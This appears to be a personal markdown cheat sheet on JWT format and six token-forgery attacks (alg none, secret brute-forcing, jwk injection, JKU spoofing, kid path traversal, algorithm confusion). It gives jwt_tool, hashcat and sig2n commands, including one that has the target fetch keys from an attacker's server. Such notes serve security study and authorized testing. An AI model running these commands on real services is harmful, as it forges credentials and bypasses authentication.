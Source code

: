 # [token.dev](token.dev)

# JWT Format

## JWS Specification

- Used for authentication and authorization

- contain JSON objects 

- Stored client side only

- Contains three parts:
    - Header (JOSE header):
        - "alg" : Thats the algorith used to sign the token
        - type : the  type of token(This is an optional element and if present for a JWT, it is recommended to use JWT as the media type.)
        - "kid":Looking at the kid, the recipient of the message should know where and how to lookup for the key and find it.
    - Payload: contains the claims
    - Signature

- The 3 parts are concatenated with a `.`

- ! Contains no spaces

- All parts are base64 encoded

### some known claims

- "iss" : The issuer of the token
- "azp"|"aud" : Google authorized Parties
- "sub" : Google specific userID
- "at_hash" : The hash of the access token 
- "iat" : Time since epoch the jwt created
- "exp" : Expires in 
- "nonce" : prevents replay attacks




# Attack #1 : Unsecured JWT

`A JWT can be either a JWS or a JWE object. Unsecured JWT is a JWS object where in the JOSE header the value of the "alg" element is set to none`


- Try to change the value of alg to "none"
- You can try then to leave the the old signature or remove it entirely.


# Attack #2 : Bruteforce the secret of the signature

```
$ hashcat -a 0 -m 16500 <jwt> <wordlist>
```


- Fix the signature

```
$ python3 jwt_tool.py "{jwt}" -S {Algorith} -p {secret}
```

# Attack #3 : header jwkey injection

- jwk (JSON Web Key) - Provides an embedded JSON object representing the public key that verify`s the signature

- If a server is not validating the contents of these parameters,or doesn`t compare the embeded key with the real one, it may be possible for an attacker to generate self-signed tokens that would be accepted by the server.

### Common JOSE Header structure 

```

{
    "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "kty": "RSA",
        "e": "AQAB",
        "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
        "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m"
    }
}

```

- kid`s have to match each other
- n is the public key 

### Attack chain

`$ python3 jwt_tool "{token}" -X i -T`

- change the payload 

- make sure the 2 'kid' inside jose header match each other (jwt_tool creates keys with its own kid)

- jwt_tool takes care of rsa keys


# Attack #4 : Spoof JKU (JWT Key URL)

JKU allows you to specify a url a server might use to grab 
the key to verify the integrity of jwt

- the kid value in JOSE header can point to the right 
one in case there are more than one

the endpoint hosts a file with the above structure :

```
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "75d0ef47-af89-47a9-9061-7c02a610d5ab",
            "n": "o-yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw-fhvsWQ"
        },
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "d8fDFo-fS9-faS14a9-ASf99sa-7c1Ad5abA",
            "n": "fc3f-yy1wpYmffgXBxhAUJzHql79gNNQ_cb33HocCuJolwDqmk6GPM4Y_qTVX67WhsN3JvaFYw-dfg6DH-asAScw"
        }
    ]
}
```

- This file is called the JSON Web Key Sets (JWKS) and can contain multiple keys.

- a JWK Set is usually serverd in the standard endpoint `/.well-known/jwks.json`

- "n" here represents the public key used to verify the signature of the jwt


### Exploit

`$ python3 jwt_tool "{token}" -X s -ju {exploit_server/keys.json} -T`

- jwt_tool will output the file in your home directory 

- it will also handle the craft of rsa keys

- ! make sure the kid`s in jose header again match as jwt_tool creates keys with its own kid

- host the Set file in your exploit server

- use the new token to exploit the target



# Attack #5 : Nullify kid


Parameter kid might be vulnerable to path traversal

So changing it to something like ../../../../../dev/null
and sign the token again with null password might
do the job


`$ python3 jwt_tool "{token}" -T -S hs256 -p ''`


# Attack #6 : Encryption Algorithm Confusion


In some instances , developers are not taking in consideration that 
the token might be anything else than signed with ,for example , rsa encryption,
even the the application is able to verify tokens signed with other algorithms aswell.

As a result , tokens signed with lets say MAC-SHA256 will still be treated as RSA.

This way we can spoof the encryption algorithm and bypass the verification.

### Step 1. Obtain the public key of the server

Some common endpoints where we might find the public keys are
`/jwks.json` or `/.well-known/jwks.json`

### Step 2 . Normalize the key

The public key needs to be in the exact format that the server is using it to verify the tokens.
Two aspects of this nature are :

- The format of teh key (ex. X.509 PEM)
- The key itself sa raw bytes(even non printable chars)


### Step 3. Modify the Key 

- Change the kid to match if needed
- Change the algorithm to a symmetric encryption algorithm( ex. hs256)

[online tool](https://jwkset.com/inspect)

### Step 4. Sign the token

- The secret is now the public key


`$ python3 jwt_tool.py "{token}" -X k -pk key.pem -I -pc {claim name} -pv {claim value}`



### Bruteforce the public key

you can derive the public key from two tokens signed from the server

`$ docker run --rm -it portswigger/sig2n <token1> <token2> `


- the output of the command has pairs of public keys and tokens which are not all valid


